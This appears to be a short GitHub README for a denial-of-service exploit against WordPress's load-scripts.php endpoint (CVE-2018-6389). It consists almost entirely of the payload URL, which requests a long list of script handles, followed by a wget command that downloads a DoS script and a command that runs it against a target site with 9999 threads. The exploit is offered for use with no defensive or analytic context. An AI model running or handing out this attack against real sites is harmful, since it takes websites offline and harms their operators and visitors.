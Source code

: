 # Loadscript-payload
exploit /wp-admin/load-scripts.php
CVE-2018-6389


/wp-admin/load-scripts.php?load=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter


##Download the Dos script
###wget https://raw.githubusercontent.com/Quitten/doser.py/master/doser.py
####Run the script
python doser.py -g 'https://target.com/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,
sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,
autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,
scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,
scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,
jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,
jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,
jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,
jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,
jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,
jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,
jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,
jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,
jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,
thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,
swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,
revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,
wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,
wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,
admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,
customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,
customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,
accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,
admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,
admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,
text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,
updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,
nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
